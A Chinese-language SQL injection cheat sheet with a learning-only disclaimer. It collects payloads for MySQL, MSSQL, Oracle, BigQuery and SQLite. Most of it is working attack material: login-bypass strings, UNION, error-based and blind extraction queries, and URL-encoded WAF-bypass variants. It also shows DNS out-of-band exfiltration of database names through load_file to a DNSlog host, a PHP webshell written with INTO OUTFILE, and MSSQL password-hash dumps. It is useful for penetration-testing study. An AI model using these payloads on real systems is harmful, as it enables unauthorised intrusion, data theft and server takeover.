


# SQLi

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

## 大纲

* [注入检测](#注入检测)
* [MySQL](#mysql)
* [MSSQL](#mssql)
* [Oracle](#oracle)
* H2 database
* [BigQuery](#bigquery)
* [SQLite](#sqlite)

---

**描述**

注入攻击的本质，是程序把用户输入的数据当做代码执行。这里有两个关键条件，第一是用户能够控制输入；第二是用户输入的数据被拼接到要执行的代码中从而被执行。sql 注入漏洞则是程序将用户输入数据拼接到了 sql 语句中，从而攻击者即可构造、改变 sql 语义从而进行攻击。

**教程**
- [SQL 注入 - CTF Wiki](https://ctf-wiki.github.io/ctf-wiki/web/sqli/)
- [Beyond SQLi: Obfuscate and Bypass](https://www.exploit-db.com/papers/17934)
- [ning1022/SQLInjectionWiki](https://github.com/ning1022/SQLInjectionWiki/)

**payload**
- [trietptm/SQL-Injection-Payloads](https://github.com/trietptm/SQL-Injection-Payloads)
- [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

**在线 SQLi 测试**
- http://demo.testfire.net/
- https://juice-shop.herokuapp.com/#/search
- https://sqlchop.chaitin.cn/demo/

**相关工具**
- sqlmap
    - [sqlmap 笔记](../../../安全工具/Sqlmap.md)

**提权工具**
- [SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT) - 数据库跨平台利用工具
- [Ryze-T/Sylas](https://github.com/Ryze-T/Sylas) - 数据库综合利用工具
    - https://paper.seebug.org/1836/

---

**SQL 注入常规利用思路**
```
1. 寻找注入点,可以通过 web 扫描工具实现
2. 通过注入点,尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息.
3. 猜解关键数据库表及其重要字段与内容(常见如存放管理员账户的表名、字段名等信息)
4. 可以通过获得的用户信息,寻找后台登录.
5. 利用后台或了解的进一步信息,上传 webshell 或向数据库写入一句话木马,以进一步提权,直到拿到服务器权限.
```

**注入的分类**

- 基于响应类型
    - 报错
    - 联合查询
    - 堆叠注入
    - 盲注
        - 基于布尔
        - 基于时间

- 基于数据类型
    - 字符型
    - 数字型
    - 搜索型

- 基于语句类型
    - 查询型
    - 插入型
    - 删除型

- 基于程度和顺序
    - 一阶注入 : 指输入的注入语句对 WEB 直接产生了影响，出现了结果；
    - 二阶注入 : 类似存储型 XSS，是指输入提交的语句，无法直接对 WEB 应用程序产生影响，通过其它的辅助间接的对 WEB 产生危害，这样的就被称为是二阶注入.

- 基于注入点的位置
    - 通过用户输入的表单域的注入
    - 通过 cookie 注入
    - 通过服务器变量注入 : 例如基于头部信息的注入

---

## 注入检测

可以通过多种方式检测注入。其中最简单的方法是在各种参数后添加 `'` 或 `"` 从而得到一个从 Web 服务器返回的数据库报错信息。

**找注入点**

- GET - HTTP Request

    在常见的 HTTP GET 请求（以及大多数请求类型）中，有一些常见的注入点。例如：网址参数（下面的请求的 id），Cookie，host 以及任何自定义 headers 信息。然而，HTTP 请求中的任何内容都可能容易受到 SQL 注入的攻击。
    ```
    GET /?id=homePage HTTP/1.1      <-----注入点
    Host: www.xxx.com
    Connection: close
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36
    Upgrade-Insecure-Requests: 1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    X-Server-Name: xxxx             <-----注入点
    Cookie: user=xxxxx;             <-----注入点
    ```

- POST - Form Data

    在具有 Content-Type 为 application/x-www-form-urlencoded 的标准 HTTP POST 请求中，注入将类似于 GET 请求中的 URL 参数。它们位 于HTTP 头信息下方，但仍可以用相同的方式进行利用。
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 39
    username=xxx&email=xxx@xxx.com  <-----注入点
    ```

- POST - JSON

    在具有 Content-Type 为 application/json 的标准 HTTP POST 请求中，注入通常是 JSON{"key":"value"} 对的值。该值也可以是数组或对象。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`，但要确保 JSON 使用双引号，否则可能会破坏请求格式。）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/json
    Content-Length: 56
    {
    "username":"xxx",               <-----注入点
    "email":"xxx@xxx.com"           <-----注入点
    }
    ```

- POST - XML

    在具有 Content-Type 为 application/xml 的标准 HTTP POST 请求中，注入通常在一个内部。虽然符号是不同的，但值可以像所有其他参数一样注入。（提示：尝试使用 `'`）
    ```
    POST / HTTP/1.1
    Host: xxx.com
    Content-Type: application/xml
    Content-Length: 79
    <root>
    <username>xxxxx</username>      <-----注入点
    <email>xxx@xxx.com</email>      <-----注入点
    </root>
    ```

**检测注入**

通过在应用程序中触发错误和布尔逻辑，可以最轻松地检测易受攻击的参数。提供格式错误的查询将触发错误，并且使用各种布尔逻辑语句发送有效查询将触发来自Web服务器的不同响应。

> 注：True 或 False 语句应通过 HTTP 状态码或 HTML 内容返回不同的响应。如果这些响应与查询的 True/False 性质一致，则表示存在注入。

- 万能密码
    ```
    admin' --
    admin' #
    admin'/*
    ' or 1=1--
    ' or 1=1#
    ' or 1=1/*
    ') or '1'='1--
    ') or ('1'='1--
    ' UNION SELECT 1, 'anotheruser', 'doesnt matter', 1--
    ```
- 逻辑测试
    - 1.php?id=1 or 1=1     -- true
    - 1.php?id=1' or 1=1    -- true
    - 1.php?id=1" or 1=1    -- true
    - 1.php?id=1 and 1=2    -- false
    - 1.php?id=1-false
    - 1.php?id=1-true
- 算术
    - 1.php?id=1/1 -- true
    - 1.php?id=1/0 -- false
- 基于盲注
- 基于错误

**判断数据库类型**

- 注释符判断 `/*` 是 MySQL 中的注释符，返回错误说明该注入点不是 MySQL，继续提交如下查询字符：`-` 是 Oracle 和 MSSQL 支持的注释符，如果返回正常，则说明为这两种数据库类型之一。继续提交如下查询字符：;是子句查询标识符，Oracle 不支持多行查询，因此如果返回错误，则说明很可能是 Oracle 数据库。
- 函数判断 `and (select count()from MSysAccessObjects)>0` 返回正常说明是 access 数据库, `and (select count()from sysobjects)>0` 返回正常说明是 mssql 数据库 `and length(user())>10` 返回正常说明是 Mysql Oracle 可以根据 from dual 虚拟库判断

---

## MYSQL

**靶场**
- https://github.com/Audi-1/sqli-labs
    - [sqli-labs](../靶场/sqli-labs-WalkThrough.md)

**相关文章**
- [Mysql注入-Bypass啊理芸](https://mp.weixin.qq.com/s/0gjgPz2QfNC0Y6_AL6JV_Q)
- [SQL注入-bypass A某Yun的tamper](https://mp.weixin.qq.com/s/vjbQT41O4MSPoZY9fej_cw)
- [SQL注入之利用DNSlog外带盲注回显](https://blog.csdn.net/u014029795/article/details/105214129)
- [mysql写shell的一点总结](https://v0w.top/2020/03/14/mysql-getshell/)
- [MySql慢查询日志GetShell](https://www.t00ls.cc/articles-52118.html)
- [MySql报错注入-高版本json函数报错](https://mp.weixin.qq.com/s/g0wwDcxrcOYXs-lYTrc8Cw)

**资源**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**监控工具**
- [TheKingOfDuck/MySQLMonitor](https://github.com/TheKingOfDuck/MySQLMonitor) - MySQL 实时监控工具(代码审计/黑盒/白盒审计辅助工具)
    ```
    java -jar MySQLMonitor.jar -h 127.0.0.1 -user test -pass test
    ```
- [cw1997/MySQL-Monitor](https://github.com/cw1997/MySQL-Monitor) - MySQL服务器执行SQL记录实时监控（WEB版本）

### MySQL 基础

- [MySQL](../../../../Integrated/数据库/笔记/MySQL.md)

**注释**

```sql
#       注释内容，表示单行注释
--      注意--后面有一个空格
/* */   多行注释
```

**数据库名**

```sql
SELECT database();
SELECT schema_name FROM information_schema.schemata;
```

**表名**

```sql
SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema!='information_schema' AND table_schema!='mysql';

-- union 查询
--MySQL 4版本时用version=9，MySQL 5版本时用version=10
UNION SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;   /* 列出当前数据库中的表 */
UNION SELECT TABLE_NAME FROM information_schema.tables WHERE TABLE_SCHEMA=database();   /* 列出所有用户自定义数据库中的表 */

-- 盲注
AND select SUBSTR(table_name,1,1) from information_schema.tables where table_schema=database() > 'A'

-- 报错
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
-- 在5.1.5版本中成功。
```

**列名**

```sql
-- union 查询
UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'

-- 盲注
AND select substr((select column_name from information_schema.columns where table_schema=database() and table_name = 'tablename' limit 0,1),1,1) > 'A'

-- 报错
-- 在5.1.5版本中成功
AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
-- MySQL 5.1版本修复了
AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));

-- 利用 PROCEDURE ANALYSE()
-- 这个需要 web 展示页面有你所注入查询的一个字段
-- 获得第一个段名
SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
-- 获得第二个段名
1 LIMIT 1,1 PROCEDURE ANALYSE()
-- 获得第三个段名
1 LIMIT 2,1 PROCEDURE ANALYSE()
```

**根据列名查询所在的表**

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```

**条件语句**

```sql
SELECT IF(1=1, true, false);
SELECT CASE WHEN 1=1 THEN true ELSE false END;
```

**延时函数**

```sql
SELECT sleep(3)

UNION SELECT If(ascii(substr(database(),1,1))>115,0,sleep(5))

SELECT BENCHMARK(100000,SHA1('true'))

UNION SELECT IF(MID(version(),1,1) LIKE 5, BENCHMARK(100000,SHA1('true')), false)
```

**order by 后的注入**

简单判断
```
order=1%20and(select%20if(mid(user(),1,4)=%22root%22,sleep(0.01),123))
```

order by 由于是排序语句，所以可以利用条件语句做判断，根据返回的排序结果不同判断条件的真假。一般带有 order 或者 order by 的变量很可能是这种注入，在知道一个字段的时候可以采用如下方式注入：
```sql
http://www.test.com/list.php?order=vote

-- 根据 vote 字段排序。找到投票数最大的票数 num 然后构造以下链接：

http://www.test.com/list.php?order=abs(vote-(length(user())>0)*num)+asc

-- 看排序是否变化。还有一种方法不需要知道任何字段信息，使用 rand 函数：

http://www.test.com/list.php?order=rand(true)
http://www.test.com/list.php?order=rand(false)

-- 以上两个会返回不同的排序，判断表名中第一个字符是否小于 128 的语句如下：

http://www.test.com/list.php?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128))
```

**宽字节注入**

国内最常使用的 GBK 编码，这种方式主要是绕过 addslashes 等对特殊字符进行转移的绕过。反斜杠 \ 的十六进制为 %5c，在你输入 %bf%27 时，函数遇到单引号自动转移加入 \，此时变为 %bf%5c%27，%bf%5c 在 GBK 中变为一个宽字符「縗」。%bf 那个位置可以是 %81-%fe 中间的任何字符。不止在 SQL 注入中，宽字符注入在很多地方都可以应用。

**oob**

```sql
select load_file('\\\\test.xxx.ceye.io\\abc');

select load_file(concat('\\\\',(select hex(database()),'.xxx.ceye.io\\abc'));
/*
UNC是一种命名惯例, 主要用于在Microsoft Windows上指定和映射网络驱动器.。UNC命名惯例最多被应用于在局域网中访问文件服务器或者打印机。我们日常常用的网络共享文件就是这个方式。UNC路径就是类似\softer这样的形式的网络路径

格式： \servername\sharename ，其中 servername 是服务器名，sharename 是共享资源的名称。
目录或文件的 UNC 名称可以包括共享名称下的目录路径，格式为：\servername\sharename\directory\filename

上面的 payload 中 \\\\ 转义后即为 \\
select hex(database()) 为需要的查询语句，用 hex() 是因为构造 UNC 时不能有特殊符号，转化一下更好用。
.xxx.ceye.io\\abc 转义后就变成了 .xxx.ceye.io\abc
拼接起来后就成了 \\xxx.ceye.io\abc 完全符合 UNC 的路径标准，解析后在 DNSlog 平台就能看到数据了。
Linux 没有 UNC 路径，所以当处于 Linux 系统时，不能使用该方式获取数据
/*
```

如果不成功,可能是访问 oob 域名的流量被拦截了,也可能是由于没开启文件导入导出
```sql
show global variables like '%secure%';

-- 如果secure_file_priv的值为null，则没开启；如果为空，则开启；如果为目录，则说明只能在该目录下操作。
-- 通过设置my.ini来配置
```

**文件导出**

```sql
select '<? phpinfo(); ?>' into outfile 'D:/shell.php';
```

### 正则表达式攻击

在 MYSQL 5+ 中 information_schema 库中存储了所有的库名，表名以及字段名信息。

1. 判断第一个表名的第一个字符是否是 a-z 中的字符,其中 blind_sqli 是假设已知的库名。

> 注：正则表达式中 `^[a-z]` 表示字符串中开始字符是在 a-z 范围内

```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-z]' LIMIT 0,1) /*
```

2. 判断第一个字符是否是 a-n 中的字符
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^[a-n]' LIMIT 0,1)/*
```

3. 确定该字符为 n
```sql
1 and 1=(SELECT 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" AND table_name REGEXP '^n[a-z]' LIMIT 0,1) /*
```

4. 表达式的更换如下
```sql
expression like this: '^n[a-z]' -> '^ne[a-z]' -> '^new[a-z]' -> '^news[a-z]' -> FALSE
```

这时说明表名为 news ，要验证是否是该表名 正则表达式为 `'^news$'`，但是没这必要 直接判断 table_name = 'news' 即可。

5. 接下来猜解其它表了

regexp 匹配的时候会在所有的项都进行匹配。例如：security 数据库的表有多个，users，email 等
```sql
select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^u[a-z]' limit 0,1);     -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 0,1);    -- 是正确的

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^us[a-z]' limit 1,1);    -- 不正确

select * from users where id=1 and 1=(select 1 from information_schema.tables where table_schema='security' and table_name regexp '^em[a-z]' limit 1,1);    -- 不正确
```

实验表名：在 limit 0,1 下，regexp 会匹配所有的项。我们在使用 regexp 时，要注意有可能有多个项，同时要一个个字符去爆破。类似于上述第一条和第二条。而 limit 0,1 对于 where table_schema='security' limit 0,1 来说 table_schema='security' 已经起到了限定作用了，limit 有没有已经不重要了。

### bypass 技巧

**常见的绕过技巧**

```
# 双写
❌ select
✔ seselectlect

# 大小写
❌ select
✔ SElect

# 负数
❌ ?id=1 ANd 1=1
✔ ?id=1 ANd -1=-1

# 小数点
❌ WHERE id= '1'
✔ WHERE id= '1.0test'

# +号连接绕过
❌ ?id=1 ANd 1=1
✔ ?id=1+and+1=1
✔ ?id=1+union+select+1+2

# 无闭合
❌ ?id=1 and 1=1
✔ ?id=1 --+/*%0aand 1=1 --+*/

# 有闭合
❌ ?id=1 and 1=1
✔ ?id=1 --+/*%0a'and 1=1 --+ --+*/
✔ ?id=1 --+/*%0aand 1=1 --+*/
✔ ?id=1 --+/*%0a'and 1=1 --+ --+*

# %09、%0a、%0b、%0c、%0d、%a0 替换 %20
❌ and false union select 1,2,......,31--
✔ and%0afalse%0aunion%0aselect%0a1,2,......,31--+

# URL 编码
❌ ?id=1 union select pass from admin limit 1
✔ 1%20union%20select%20pass%20from%20admin%20limit%201

❌ ?id=1 or 1
✔ ?id=1%27or%271           #字符型注入
✔ ?id=1%20or%201           #数字型注入
```

**函数替换**
- 连接
    ```sql
    and length(database())=7
    && length(database())=7
    %26%26 length(database())=7
    HAVING length(database())=7

    or 1=1
    || 1=1
    %7C%7C 1=1
    %7C%7C 1 LIKE 1
    ```

- benchmark 代替 sleep
    ```sql
    id=1 and if(ascii(substring((database()),1,1))=115,(select benchmark(1000000,md5(0x41))),1) --+
    ```

- 字符串截取函数
    ```sql
    Mid(version(),1,1)
    Substr(version(),1,1)
    Substring(version(),1,1)
    Lpad(version(),1,1)
    Rpad(version(),1,1)
    Left(version(),1)
    reverse(right(reverse(version()),1))
    ```

- 字符串连接函数
    ```sql
    concat(version(),'|',user());
    concat_ws('|',1,2,3)
    ```

- 字符转换/编码
    ```
    Char(49)
    Hex(‘a’)
    Unhex(61)
    Ascii(1)
    ```

**函数与括号之间**

```
# 函数与括号之间可添加空格、换行、注释
❌ select version()
✔ select version ()
✔ select version/**/()
✔ select version
#123
()
```

**执行语句之间**

```
# 执行语句之间的空格，可用注释符、"换行%0a"替换
❌ select version()
✔ select/**/version()
✔ select#123
version()
✔ select-- 123
version()
```

**括号包裹**

```
# 逻辑判断式1>1、'a'='b'，from后的表格名，select语句，可用括号包裹
✔ select * from (test)
✔ select * from (test) where (id=1)
✔ select * from (test) where (id=1) union (select * from (test) where (id=2));
```

**省略空格**

```
# 单双引号'"、括号()、反单引号``、星号*、与语句之间可以没有空格
✔ select*from(test)
✔ select*from(test)where(id=1)
✔ select*from(test)where(id=1)union(select*from(test)where(id=2));
```

**注释配合换行符**

```
# order by 1
❌ ?id=1'order by id#
✔ ?id=1%27order%20by%20id%23
✔ ?id=1%27order%23/*%99%0aby%23/*%99%0a4%23
✔ ?id=1%20order%23/*%99%0aby%23/*%99%0aid%23
✔ ?id=1%20order%23/*%99%0aby%23/*%99%0a4%23

# union select x from x
❌ ?id=union select
✔ ?id=union%23/*%99%0aselect
✔ ?id=union--%20%0d%0a%23/*%99%0aselect
✔ ?id=union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aa,2,asd
✔ ?id=union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users%23%27
✔ ?id=1%20union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,id,3%20from%20users%23
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0a1,%23/*%99%0auser(),3%20from%20users%23

# load_file()
# 规避常规的 dnslog 站点, 最好自建 dnslog 服务
❌ ?id=1'union select load_file("//123.xxx.com/abc")#
✔ ?id=1%27union--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%22//123.xxx.com/abc%22)%23
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%22//123.xxx.cn/abc%22))%23
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0a))%23
✔ ?id=1%27%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0d%0aconcat(%27//%27,(%23%0aselect%23/*%99%0a111),%27.123.text.com/abc%27)))%23
✔ ?id=1%20%26%26(--%20%0d%0a%23/*%99%0aselect--%20%0d%0a%23/*%99%0aload_file(%23/./%23/*%99%0d%0aconcat(%27//%27,(%23%0aselect%23/*%99%0a111),%27.123.text.com/abc%27)))%23

# concat()
❌ ?id=concat('//',(select 123),".123.test.com/abc")
✔ ?id=concat(%27//%27,(select%23/*%99%0a123),%22.123.test.com/abc%22)

# updatexml()
❌ ?id=updatexml(1,1,1)
✔ ?id=updatexml%23/*%99%0a(1,1,1)
✔ ?id=1%27and%20updatexml%23/*%99%0a(1,1,1)%23%27
✔ ?id=1%20and%20updatexml%23/*%99%0a(1,1,1)

❌ ?id=updatexml(0,(select a),'a)')
✔ ?id=updatexml%23/*%99%0d%0a(0,(%23/*%99%0d%0aselect%0aa),%27a)%27)
✔ ?id=1%27%26%26updatexml%23/*%99%0d%0a(0,(%23%0aselect%23/*%99%0a111),%27a)%27)%23
✔ ?id=1%20and%20updatexml%23/*%99%0d%0a(0,(%23%0aselect%23/*%99%0a111),%27a)%27)%23

?id=1' and updatexml(0,concat#concat)('//~',(select 123),0x7e),'a)')#
?id=1%27%26%26updatexml%23/*%99%0d%0a(0,concat%0a%23concat)%0d%0a(%27//~%27,(select%23/*%99%0a123),0x7e),%27a)%27)%23
?id=1%20and%20updatexml%23/*%99%0d%0a(0,concat%0a%23concat)%0d%0a(%27//~%27,(select%23/*%99%0a123),0x7e),%27a)%27)%23
```

**绕过引号限制**
```sql
-- hex 编码
SELECT * FROM Users WHERE username = 0x61646D696E
-- char() 函数
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110)
```

**绕过字符串黑名单**
```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT('a', 'd', 'm', 'i', 'n');
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n');
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');

-- 使用 CONCAT() 时，任何个参数为 null，将返回 null，可以使用 CONCAT_WS()。CONCAT_WS()函数第一个参数表示用哪个字符间隔所查询的结果。
```

**json 函数**

MySQL 5.7.8 开始新增了很多操作 json 数据的函数

```sql
JSON_TYPE()
-- 此函数获取JSON值的类型，当我们传入的值不属于json格式则报错。
JSON_TYPE(version())

JSON_EXTRACT()
-- 此函数从 JSON 文档中返回数据，从与path参数匹配的文档部分中选择,当第一个参数不是json类型的值则报错
JSON_EXTRACT(version(), '$[1]')
JSON_EXTRACT((select user()),'$.a')

JSON_ARRAY_APPEND()
-- 将值附加到 JSON 文档中指定数组的末尾并返回结果，报错输出原理和json_extract函数相同。
select JSON_ARRAY_APPEND(version(),1,1);
select JSON_ARRAY_APPEND('[1,2]',version(),1);
```

### 提权/GETSHELL

- [Mysql提权](../../软件服务安全/实验/Mysql.md)

---

## MSSQL

> 基于ASP / ASPX的应用程序一般都是 MSSQL。

**学习资源**
- [aleenzz/MYSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI)

**靶场**
- [Larryxi/MSSQL-SQLi-Labs](https://github.com/Larryxi/MSSQL-SQLi-Labs)
    - 搭建过程 : [MSSQL搭建](../../../../Integrated/Windows/实验/MSSQL搭建.md) , [asp站点搭建](../../../../Integrated/Windows/实验/asp站点搭建.md)

**相关文章**
- [SQL Server从0到1](https://mp.weixin.qq.com/s/N2siXJgmPAZ7CSIQ3FCF0w)
- [从0开始学习Microsoft SQL Server数据库攻防](https://xz.aliyun.com/t/10955)
- [窃取MSSQL各版本密码HASH](https://mp.weixin.qq.com/s/nKV25G2PAI9rxXdtbyWE3A)

**相关案例**
- [记一次苦逼的sql注入](https://mp.weixin.qq.com/s/ydzMtlJfWD4hixIo1_ul2A)

**相关工具**
- [Keramas/mssqli-duet](https://github.com/Keramas/mssqli-duet) - SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing

### MSSQL 基础

- [MSSQL](../../../../Integrated/数据库/笔记/MSSQL.md)

**基本参数**
```sql
@@version       -- 数据库版本
user            -- 获取当前数据库用户名
db_name()       -- 当前数据库名 其中db_name(N)可以来遍历其他数据库
;select user    -- 查询是否支持多语句
@@servername    -- 服务器名称
```

**查询密码HASH**
```sql
-- MSSQL 2000版本
select name,password from master.dbo.sysxlogins

-- MSSQL 2005及以后版本
select name,password_hash from sys.sql_logins
```

### 正则表达式攻击

MSSQL 所用的正则表达式并不是标准正则表达式 ，该表达式使用 like 关键词
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name LIKE '[a-z]%' )
```

该查询语句中，select top 1 是一个组合，不要看错了。

如果要查询其它的表名，由于不能像 mysql 那样用 limit x,1，只能使用 table_name not in (select top x table_name from information_schema.tables) 意义是：表名没有在前 x 行里，其实查询的就是第 x+1 行。

例如查询第二行的表名：
```sql
1 AND 1=(SELECT TOP 1 1 FROM information_schema.tables WHERE TABLE_SCHEMA="blind_sqli" and table_name NOT IN ( SELECT TOP 1 table_name FROM information_schema.tables) and table_name LIKE '[a-z]%' )
```

表达式的顺序：
```
'n[a-z]%' -> 'ne[a-z]%' -> 'new[a-z]%' -> 'news[a-z]%' -> TRUE
```

之所以表达式 news[a-z] 查询后返回正确是应为 % 代表 0-n 个字符，使用 "_" 则只能代表一个字符。故确认后续是否还有字符可用如下表达式
```
'news%' TRUE -> 'news_' FALSE
```

同理可以用相同的方法获取字段，值。这里就不再详细描述了。

### bypass 技巧

**select from 后的位置**
- 空白符号
    ```
    01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20
    ```
    需要做 urlencode,sqlserver 中的表示空白字符比较多,靠黑名单去阻断一般不合适.

- 注释符号

    Mssql 也可以使用注释符号 `/**/`

- `.` 符号

    

- `:` 号

    

**select from 之间的位置**
- 空白符号
- 注释符号
- `:` 号

**and 之后的位置**
- 空白符号
- 注释符号
- `:` 号
- `%2b` 号

    

**常见过滤函数**
- 字符串截取函数
    ```
    Substring(@@version,1,1)
    Left(@@version,1)
    Right(@@version,1)
    ```

- 字符串转换函数
    ```
    Ascii(‘a’) 这里的函数可以在括号之间添加空格的, 一些 waf 过滤不严会导致 bypass
    Char(‘97’)
    ```

- Mssql 支持多语句查询,因此可以使用;结束上面的查询语句,然后执行自己构造的语句.动态执行.

    使用 exec 的方式:

    

    使用 sp_executesql 的方式:

    

### 提权/GETSHELL

- [MSSQL提权](../../软件服务安全/实验/MSSQL.md)

---

## oracle

用于是否是判断 oracle 数据库的方法
```
and (select count(*) from sys.user_tables)>0
```

**相关案例**
- [BountyHunterInChina/重生之我是赏金猎人(一)-轻松GET某src soap注入](https://github.com/J0o1ey/BountyHunterInChina/blob/main/%E9%87%8D%E7%94%9F%E4%B9%8B%E6%88%91%E6%98%AF%E8%B5%8F%E9%87%91%E7%8C%8E%E4%BA%BA(%E4%B8%80)-%E8%BD%BB%E6%9D%BEGET%E6%9F%90src%20soap%E6%B3%A8%E5%85%A5.pdf)

### bypass 技巧

oracle 中文版中,中文括号 `（ ）`可以代理英文且不报错
```
select （1+1） from test;
```

---

## H2 database

**相关文章**
- [一步一步教你漏洞挖掘之某系统从H2 database SQL注入漏洞到RCE回显构造](https://mp.weixin.qq.com/s/fZFNj2T0IITL8-9na_AWTQ)

---

## BigQuery

**相关文章**
- [BigQuery SQL Injection Cheat Sheet](https://ozguralp.medium.com/bigquery-sql-injection-cheat-sheet-65ad70e11eac)

**Playground**
- https://console.cloud.google.com/bigquery

**信息收集**
```
SELECT * FROM INFORMATION_SCHEMA.SCHEMATA
select @@project_id
select session_user()
```

---

## SQLite

SQLite 是一个进程内的库，实现了自给自足的、无服务器的、零配置的、事务性的 SQL 数据库引擎。它是一个零配置的数据库，这意味着与其他数据库不一样，你不需要在系统中配置。

SQLite 数据库的特点是它每一个数据库都是一个文件，当你查询表的完整信息时会得到创建表的语句。

**相关文章**
- [SQLite注入](https://mp.weixin.qq.com/s/12lN4zeezSsCLYvRYJfAuw)

### SQLite 基础

- https://www.runoob.com/sqlite/sqlite-commands.html

**注释**

```sql
;       注释内容，表示单行注释
--      注意--后面有一个空格
/* */   多行注释
```

**查看版本**

```sql
select sqlite_version();
```

**查询表名和列名**

```sql
select sql from sqlite_master
```

**布尔盲注**

布尔盲注通过查询正确和错误返回的页面不同来判断数据内容。

SQLite不支持ascii，所以直接通过字符去查询，这里和mysql不同，这个区分大小写。也没有mid,left等函数。

```sql
-1' or substr((select group_concat(sql) from sqlite_master),1,1)<'a'/*
```

**时间盲注**

SQLite没有sleep()函数，但可以用randomblob(N)函数，randomblob(N) 函数，其作用是返回一个 N 字节长的包含伪随机字节的 BLOG。N 是正整数。可以用它来制造延时。SQLite没有if，所以需要使用case……when来代替。

```
-1' or (case when(substr(sqlite_version(),1,1)>'3') then randomblob(300000000) else 0 end)/*
```

**写 webshell**

SQLite 的 ATTACH DATABASE 语句是用来选择一个特定的数据库，使用该命令后，所有的 SQLite 语句将在附加的数据库下执行。
```
ATTACH DATABASE file_name AS database_name;
```

